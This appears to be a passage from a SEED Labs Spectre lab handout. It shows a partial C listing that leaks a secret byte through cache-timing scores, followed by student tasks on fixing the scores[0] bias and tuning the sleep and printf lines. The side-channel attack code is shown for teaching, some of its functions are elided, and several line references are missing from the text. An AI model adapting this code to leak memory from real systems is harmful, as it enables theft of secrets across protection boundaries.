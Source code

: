 \begin{lstlisting}[caption=\texttt{SpectreAttackImproved.c}]
static int scores[256];

void reloadSideChannelImproved()
{
  ......
  for (i = 0; i < 256; i++) {
     ......
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}

void spectreAttack(size_t index_beyond)
{
  ... omitted: same as that in SpectreAttack.c ...
}

int main() {
  int i;
  uint8_t s;
  size_t  index_beyond = (size_t)(secret - (char*)buffer);

  flushSideChannel();
  for(i=0;i<256; i++) scores[i]=0;

  for (i = 0; i < 1000; i++) {
    printf("*****\n");                 (*@\ding{192}@*)
    spectreAttack(index_beyond);
    usleep(10);                        (*@\ding{193}@*)
    reloadSideChannelImproved();
  }

  int max = 0;                     
  for (i = 0; i < 256; i++){
   if(scores[max] < scores[i])
     max = i;
  }

  printf("Reading secret value at index %ld\n", index_beyond);
  printf("The  secret value is %d(%c)\n", max, max);
  printf("The number of hits is %d\n", scores[max]);
  return (0);
}
\end{lstlisting}

\paragraph{Your tasks.} Please compile and run \texttt{SpectreAttackImproved.c},
and do the following tasks:

\begin{itemize}
  \item You may observe that when running the code above, 
        the one with the highest score is very likely to be 
        \texttt{scores[0]}. Please figure out why, and fix the code above,
        so the actual secret value (which is not zero) will be printed out. 
	
  \item Line~ seems useless, but from our experience on SEED Ubuntu 20.04, without this line,
        the attack will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. 
	We have not figured out the exact reason yet, so if you can, your instructor will
	likely give you bonus points. 
	Please run the program with and without this line, and describe your observations. 

  \item Line~ causes the program to sleep for 10 microseconds. How long the program
        sleeps does affect the success rate of the attack. Please try several other values,
	and describe your observations. 
\end{itemize}
 



